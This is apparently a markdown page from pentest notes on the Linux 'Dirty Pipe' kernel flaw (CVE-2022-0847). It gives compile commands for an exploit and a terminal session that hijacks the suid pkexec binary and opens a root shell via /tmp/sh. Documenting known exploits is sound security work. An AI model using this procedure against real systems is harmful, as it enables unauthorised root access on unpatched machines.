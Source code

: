 ```yaml
---
title : "CVE-2022-0847"
# pre : ' '
description : "The Dirty Pipe Vulnerability."
date : 2022-03-08T10:20:03+01:00
# hidden : true
# draft : true
weight : 340
# tags : ['']
---
```


---

## The Dirty Pipe Vulnerability

This is the story of CVE-2022-0847, a vulnerability in the Linux kernel since 5.8 which allows overwriting data in arbitrary read-only files. This leads to privilege escalation because unprivileged processes can inject code into root processes.

It is similar to CVE-2016-5195 “Dirty Cow” but is easier to exploit.

The vulnerability was fixed in Linux 5.16.11, 5.15.25 and 5.10.102.

### Compiling

{{%resources fa_icon_class="far fa-file" pattern=".*(c)"/%}}

```plain
$ gcc dirtypipez.c -o dirtypipez

$ file dirtypipez         
dirtypipez: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f7aee8d04713d6c27bc73e3f5fb59b1eee5feeaf, for GNU/Linux 3.2.0, not stripped
```

### Exploiting

```plain
$ id
uid=1000(crypt0rr) gid=1000(crypt0rr) groups=1000(crypt0rr)

$ ./dirtypipez /usr/bin/pkexec
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
root
# 
```

The vulnerable binary is run from `/tmp/sh`. Remember to remove it after using/re-using.

```plain
$ ls -l /tmp/sh
-rwsr-xr-x 1 root crypt0rr 186 Mar  8 10:19 /tmp/sh
```

## URL List

- [Dirtypipe.cm4all.com - The Dirty Pipe Vulnerability](https://dirtypipe.cm4all.com/)
- [Cve.mitre.org - CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)
- [Twitter.com - CVE-2022-0847 Dirty Pipe](https://twitter.com/jas502n/status/1500879361448493056?s=11)
